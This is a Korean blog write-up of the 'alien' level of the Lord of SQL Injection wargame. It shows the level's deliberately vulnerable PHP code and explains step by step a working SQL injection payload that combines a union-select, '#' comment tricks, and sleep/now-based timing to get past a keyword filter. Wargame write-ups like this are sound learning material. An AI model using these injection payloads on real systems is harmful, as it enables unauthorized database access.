 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - alien 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


와 드디어 `Lord of SQL Injection`을 `All Clear` 했다.  

신난다!!  

마지막 문제의 이름은 `alien`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_alien where no=
-------------------------------------------------------------

-------------------------------------------------------------
query2 : select id from prob_alien where no=''
-------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

예전에 뭔가 `POXX`에서 비슷한 문제가 있었던 것 같은데 잘 기억이 안난다.  

`Write-up`도 어딘가에 있을 것 같은데 못찾겠다.  

문제를 풀기 위해서는 총 4개의 `조건문`을 통과해야 한다.  

1. result !== "admin" : 결과 값이 admin이 아니면 exit => admin 이어야 함 
2. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
3. result === "admin" : 결과 값이 admin이면 exit => admin이 아니어야 함  
4. result === "admin" : 결과 값이 admin이면 solve => admin 이어야 함  

1번과 2번은 `no`에 `싱글쿼터`가 없지만, 3번과 4번 조건문에서는 `싱글쿼터`가 존재한다.  

싱글쿼터가 없을 때와 있을 때를 우회 해 원하는 값을 뽑는 것은 생각보다 쉽다.  

```
?no=1 union select 1#' union select '1
```

위와 같이 입력하면 완성되는 `$query`와 `$query2`는 다음과 같다.  

```
$query1 : select id from prob_alien where no=1 union select 1#' union select '1
```

```
$query2 : select id from prob_alien where no='1 union select 1#' union select '1'
```

첫 번째 쿼리의 경우, `#`이 주석 처리 되기 때문에 `#` 이후의 `' union select '1`은 체크하지 않는다.  

반면 두 번째 쿼리에서는 `1 union select 1#` 까지가 `no`의 값으로 들어가기 때문에 `#` 이후의 `union select '1'`이 실행된다.  

여기까진 쉽게 알아냈는데, 문제는 한 쿼리문으로 어쩔 때는 `admin`이어야 하고 어쩔 때는 `admin`이면 안되는 쿼리문을 만들어야 하는 것이었다.  

이것도 주변에 물어봐서 풀 수 있었는데, 바로 `시간`을 활용하면 됬다.  

```
?no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
```

먼저 첫 번째 쿼리를 살펴보면 다음과 같다.  

`!sleep(1)&&now()%2=1` 은 현재 시간에 따라서 `0` 혹은 `1`을 반환 해 준다.  

이 후, `hex(10 + 0 OR 1)`이 되는데, 이 때 `hex(10)`은 `A`가, `hex(11)`은 `B`가 된다.  

이를 `lower()`를 통해 소문자로 바꾼 후, `concat()`을 통해서 `0x646d696e`와 합친다.  

`0x646d696e`는 `dmin`이므로, 최종적인 결과 값은 시간에 따라서 `admin` 혹은 `bdmin`이 될 것이다.  

`sleep(1)`을 걸어서 첫 번째가 `0`이라면 바로 다음 두번째로 쿼리를 실행할 때는 `1`이 나오도록 했다.  

두 번째 쿼리에서는 `hex(10+`가 아니라 `hex(9+`를 했다.  

나와야 하는 결과 값을 살펴보면 순서대로 `hex(10) -> hex(11) -> hex(11) -> hex(10)`이다.  

하지만 계속해서 `sleep(1)`을 실행하게 되면 무조건 `hex(10) -> hex(11) -> hex(10) -> hex(11)` 혹은 `hex(11) -> hex(10) -> hex(11) -> hex(10)`이 나오게 된다.  

여기서 `hex(10)`만 제대로 나오면 되고 `hex(11)`은 다른 값이 나와도 상관 없으므로, 두 번째 쿼리에서 `hex(9+`로 바꿔 주어 `hex(10) -> hex(11) -> hex(9) -> hex(10)`이 나오게 했다.  

그러면 나오는 결과는 순서대로 `admin -> bdmin -> 9dmin -> admin`이 되어 문제를 풀 수 있다.  

다만, 처음 쿼리를 실행할 때 `admin`이 나올 수 있는 시간이어야 하므로 바로 한 번에 문제가 풀리지는 않는다.  

```php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id from prob_alien where no=1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_alien where no='1 union select concat(lower(hex(10+(!sleep(1)&&now()%2=1))), 0x646d696e)#' union select concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)#'
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

ALIEN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysql_fetch_array(mysql_query($query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysql_fetch_array(mysql_query($query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

`ALIEN Clear!!`

드디어 `Lord of SQL Injection`을 `ALL Clear` 했다!  

아 너무 뿌듯하다 ㅠㅠ  

모르는게 너무 많아서 주변에 많이 물어보면서 풀었는데, 이 부분이 좀 아쉽다.  

더 열심히 공부해서 아무한테도 안물어보고 문제를 슝슝 풀 수 있게 되었으면 좋겠다!  

이제 풀다 말았던 `pwnable.kr`을 다시 풀어야 겠다. ㅎㅎ  

`Lord of SQL Injection All Clear!!`  

![](/images/los/alien/alien_01.png)
